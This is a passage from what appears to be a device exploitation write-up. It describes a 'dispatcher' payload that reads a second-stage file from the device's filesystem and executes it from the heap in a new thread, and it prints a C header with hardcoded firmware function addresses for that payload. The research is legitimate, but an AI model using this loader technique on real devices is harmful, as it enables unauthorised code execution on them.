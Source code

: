Also, for some reason standard libc functions such as **fopen**, **open**, and **read** were giving me *SIGILL* faults - I still have no idea why this was happening, but I reverse engineered how files were being used in other places in the **App** process and was able to use this method instead.

The dispatcher payload does the following:
- Opens the **/var/tmp/mmcblock0/iperf/main** file
- Reads the contents into a buffer which it allocated earlier
- Closes the file
- Creates a new thread which executes the contents of the buffer as a function (thanks executable heap!)
- Detaches the spawned thread and exits

Here is the code:

***dispatcher.h***

```
-c
#include <stdint.h>

#define MALLOC_ADDR 0x1254c
#define PTHREAD_CREATE_ADDR 0x118f8
#define PTHREAD_DETACH_ADDR 0x12f60
#define SLEEP_ADDR 0x11c10

#define CREATE_FILE_STRUCT_ADDR 0x22c70
#define OPEN_FILE_ADDR 0x22e68
#define READ_FILE_ADDR 0x22378
#define CLOSE_FILE_ADDR 0x225ac
#define GET_FILE_SIZE_ADDR 0x22428

typedef unsigned long int pthread_t;

struct pthread_attr_t {
    unsigned int flags;
    void* stack_base;
    unsigned int stack_size;
    unsigned int guard_size;
    unsigned int sched_policy;
    unsigned int sched_priority;
};

struct file_struct {
    void* json_function_table;
    void* structure;
};

typedef void* (*malloc_t)(uint32_t size);
typedef int (*pthread_create_t)(pthread_t* thread, struct pthread_attr_t *attr,
    void *(*start_routine)(void*), void *arg);
typedef int (*pthread_detach_t)(pthread_t thread);
typedef uint32_t (*sleep_t)(uint32_t seconds);

typedef struct file_struct* (*create_file_struct_t)(struct file_struct*);
typedef int (*open_file_struct_t)(struct file_struct*, char*, uint32_t);
typedef int (*read_file_t)(struct file_struct*, void* buffer, uint32_t count);
typedef int (*get_file_size_t)(struct file_struct*);
typedef int (*close_file_t)(struct file_struct*);

typedef void (*program_func_t)();
```
